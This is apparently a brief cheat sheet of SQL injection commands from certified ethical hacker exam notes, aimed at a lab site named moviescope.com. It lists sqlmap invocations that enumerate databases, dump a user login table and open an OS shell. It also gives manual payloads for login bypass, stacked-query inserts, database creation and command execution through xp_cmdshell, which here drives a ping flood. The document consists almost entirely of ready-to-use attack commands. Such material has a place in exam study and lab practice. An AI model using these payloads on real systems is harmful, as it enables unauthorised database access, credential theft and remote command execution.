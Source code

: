 ```
------------------------------------------------------
SQLMAP Extract DBS
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
blah' or 1=1 --

Insert data into DB from login
blah';insert into login values ('john','apple123');

Create database from login
blah';create database mydatabase;

Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

{% embed url="https://adithyanak.gitbook.io/ceh-practical/" %}

{% embed url="https://github.com/dhabaleshwar/CEHPractical" %}

<details><summary>Others</summary></details>
